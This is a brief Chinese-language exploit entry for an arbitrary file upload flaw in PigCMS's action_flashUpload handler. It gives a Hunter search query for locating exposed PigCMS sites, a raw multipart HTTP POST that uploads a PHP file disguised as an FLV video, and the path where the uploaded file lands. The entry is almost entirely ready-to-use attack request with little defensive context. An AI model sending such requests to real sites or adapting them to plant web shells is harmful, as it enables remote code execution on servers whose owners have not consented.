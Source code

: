# PigCMS action_flashUpload 任意文件上传漏洞

## 网络测绘

hunter: app.name="PigCMS"

## POC / EXP

```
POST /cms/manage/admin.php?m=manage&c=background&a=action_flashUpload HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----aaa

------aaa
Content-Disposition: form-data; name="filePath"; filename="test.php"
Content-Type: video/x-flv

<?php phpinfo();?>
------aaa
```

```
/cms/upload/images/2023/08/11/1691722887xXbx.php
```